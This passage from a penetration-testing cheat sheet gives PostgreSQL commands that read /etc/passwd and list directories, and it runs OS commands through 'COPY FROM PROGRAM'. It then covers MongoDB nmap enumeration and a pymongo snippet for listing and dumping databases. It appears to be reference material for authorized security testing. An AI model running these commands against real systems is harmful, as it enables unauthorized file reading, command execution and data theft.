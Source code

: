 ```text
create table demo(t text);
copy demo from '/etc/passwd';
select * from demo;

select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd', 0, 1000000);
select * from pg_read_binary_file('/etc/passwd');
```

```text

```


**RCE**

```text
drop table if exists cmd_exec;
create table cmd_exec(cmd_output text);
copy cmd_exec from program 'id';
select * from cmd_exec;
```


#### DB (MongoDB)

**General Methodology**
> Run `nmap` to gather service specific information and vulnerability information.
> Check possibilities for unauthenticated access.
> If any valid creds are found previously, check if they can be reused.


**References**
> https://github.com/andresriancho/mongo-objectid-predict


**Config Files**
- `/opt/mongodb/mongodb.conf`
- `/opt/mongo/mongodb.conf`
- `/etc/mongod.conf`


**Enumeration**

Enumerate with `nmap nse` to find additional information.

```bash
sudo nmap -n -Pn -sT -T4 -p T:27017,27018 --script "mongodb-databases, mongodb-info" -sV -oA recon/nmap-${IP}-tcp-mongo ${IP}
```

```text

```


**Access**

If credentials are available,

```python
from pymongo import MongoClient
client = MongoClient(host, port, username=username, password=password)
client.server_info() #Basic info
#If you have admin access you can obtain more info
admin = client.admin
admin_info = admin.command("serverStatus")
cursor = client.list_databases()
for db in cursor:
    print(db)
    print(client[db["name"]].list_collection_names())
#If admin access, you could dump the database also
```
